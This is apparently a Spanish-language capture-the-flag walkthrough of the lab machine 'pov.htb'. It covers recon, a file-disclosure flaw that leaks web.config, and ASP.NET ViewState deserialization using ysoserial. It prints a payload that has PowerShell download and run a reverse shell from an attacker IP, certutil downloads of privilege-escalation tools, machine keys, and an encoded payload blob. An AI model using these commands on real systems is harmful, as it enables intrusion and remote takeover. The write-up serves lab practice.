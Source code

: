 ### Ping
```python
ping -c 1 10.10.11.251
PING 10.10.11.251 (10.10.11.251) 56(84) bytes of data.
64 bytes from 10.10.11.251: icmp_seq=1 ttl=127 time=157 ms

--- 10.10.11.251 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 156.729/156.729/156.729/0.000 ms
```

### TTL 127= Windows
### nmap
```python
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-title: pov.htb
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.52 seconds
```
obtenemos el nombre de dominio del host y lo agregamos al /etc/hosts

### Enumeración del puerto http (80)

![[Pasted image 20240310205202.png]]

### Fuzzing con wfuzz (Directorios)
no obtenemos nada interesante por el momento
![[Pasted image 20240310205503.png]]

### Fuzzing con wfuzz (Subdominios)
encontramos un subdominio sospechoso. lo agregamos al /etc/hosts
![[Pasted image 20240310210838.png]]

### Web dev.pov.htb

![[Pasted image 20240311105847.png]]

### BurpSuite
interceptamos la petición de download cv
![[Pasted image 20240310212727.png]]
cambiamos el EVENTVALIDATION= cv.pdf por = /web.config. esto nos muestra información de la pagina la cual la hace vulnerable a una explotacion de VIEWSTATE

### Vulnerabilidad Exploiting __VIEWSTATE
![[Pasted image 20240311105353.png]]
usaremos la herramienta YSoSerial.Net esta herramienta es para maquina windows asi que debes tener una maquina windows donde poder ejecutar esto (tambien puedes ejecutarlo desde kali linux pero debes complementarlo con otras herramientas)

### YSoSerial.Net
usaremos la siguiente sintax
```python
C:\FilesExplotation\ysoserial-1.34\Release>.\ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "powershell.exe iex (New-Object Net.WebClient).DownloadString('http://10.10.14.64/Invoke-PowerShellTcp.ps1')" --apppath="/" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43"  --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"
```

![[Pasted image 20240311110529.png]]

### Invoke-PowerShelltcp
ahora usaremos el invoke-powershell para invocar automaticamente esta shell. al final del codigo debemos agregar la siguiente linea 

```python
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.10 -Port 4444
```

![[Pasted image 20240311110955.png]]

### Servidor con python
estaremos compartiendo este archivo en un servidor con python
![[Pasted image 20240311110845.png]]

### BurpSuite
finalmente usaremos el codigo que hemos generado con el YSoSerial.Net intectandolo en el parametro **VIESTATE** 
Nota: el codigo debe ir URLEncode puede hacerlo desde burpsuite seleccionando el codigo y presionando CTRL + U 
![[Pasted image 20240311111432.png]]
### rlwrap
estaremos a la escucha con rlwrap para recibir nuestra reverse shell
![[Pasted image 20240311105747.png]]

### xml

![[Pasted image 20240311112314.png]]
En este archivo obtenemos otro Usuario llamado **alaading** y la contraseña codificada.

### Import-Clixml 
con import-clixml podemos extraer los datos de ese archivo xml
![[Pasted image 20240311175136.png]]

### Servidor con python 
ahora vamos a descargar RunasCs.exe, psgetsys.ps1 y EnableAllTokenPrivs.ps1
estaremos compartiendo todos estos archivos en nuestro servidor para poder subirlos a la maquina victima
![[Pasted image 20240311181743.png]]

### certutil.exe
usaremos la herramienta certutil para poder descargar los archivos a la maquina victima
```python
certutil.exe -urlcache -split -f "http://10.10.14.64/RunasCs.exe" ".\RunasCs.exe"
```
![[Pasted image 20240311182044.png]]

### RunasCs.exe
ejecutamos RunasCs con las credenciales que hemos conseguido 
![[Pasted image 20240311182556.png]]


R0joNK0xfsrbj6hXJWsdR/Aunc4iwYQieYABw5V7xxaSmzHkgHGwy8/AWpbhGk%2btq7aHLsakG6Kx9X2YOZxoalUFpgLGQI0SMMt7REc9UhPTx7RwQYJ5F%2bG%2bPIrF4an95Wm4TzN1afxXl21Ks6gAr7aksLZLuM%2bqQmqWIYlRcmt7qepwSKsTQIXeij0Z3yvleKl0akkk11hY5u0Fd5iyhs1gSYksM2ad6klvG45l0KrdWndWl1yrV1OtImsSOpytC9UMkjYt3LCauyIVH3YmFFXFgFekDZpIO3UsNHxvNa/P69N24/V6jW4/H1BPh63/itiV72Z1QchzB5O4m2gwZt%2bmLZ2jkO%2b3nZRJvjYVk6S5B4VT/ava6Fk/n9UpbEym4nDri9O4QIYKnnNVyYrAkXHnKy4yKqtUBvsOqhIJjJ1VxT/SUGMMYi%2bEM/IhRiLUnUUjxgdPwXlpD2tXiZ4N6khYWNVAF6LqWv3uU3lmIFHx62PC7mR4NU5HXrl3t0Nc%2b/9%2bNIv2GpKzmt7dGO/hylmavRws7K4FOUEcgdZIqwkL3uUBpnMjR64ZB2aJMwtS4e4Y9W2NmH8Kn91cso7ZF523BHvgKANoK9crhHQnskUhQwEsmhb1FZnGs6V/1vfHUb29IJf44nPFJiGq2JFAl9%2bok1L33RUcQISatYQ5vFYRztgtePj57VsHcfS7462S6owQeflANXz5rYigDmN6zImGfsxQRbG3VoJV%2bS6V6/9xrLUaNzrgI5HmlQY3AGBANhwVD71BffEd8aHVTNaNrV4WLs6IoqZ5P/HBRMt20/TjAK07j6ri%2bUYrftMnbJXlxJAjHKOO7PXhHG2unVQb4TDDxvf9DUg/y6k5WQhr9X9iS2fEU5C8HQ97qbDezYwXNe2v0D3Bw%2bMSikiaQjpBypzQP1AtHwOB0H3H59fpYth5KYsWhVG1oACZDuhcwt6e6%2b8cfszTs7NuvBXqzcjPFWZKypB6xAFp47MFe62KaHLhUHAW1eK78ao/yz2jobzW2KUSWEERFfbHZJFmhjPBopkpjHXqnYUIW691RnZuUQpwVYqfTqGbXTNYfG2Q46hYCsLLES%2bL36EVj0PSq1etuAFFP/PWL05YndONUON5ZiyoP/laheq4VDVbKNwZ9EbQuBKhTCXnex463y6ROeY7tYuEDL4lVrQXgxaJ9I%2bikuZJZBze8TUf3Tq0PAUa9kHCxnnJOzb/dPBjHNVQSGo8NmS2Fwa8mJRLHWrjDVYDuje7Zr3A%2bLnldFnSrDRK2qY%2bJnslZGTtL2ZduI83eBGN2nWJxQ2z4FEjq5J8Ux3a3oJ1%2bmMUs3trMQLV8uZSv2Bfc4z2YG2SKpg615CcmGs9AaoCvzdDCnVu0fUkSCeeI94q9cpGmb2XGg%2bUbqVrGwp7gYYu2A%3d%3d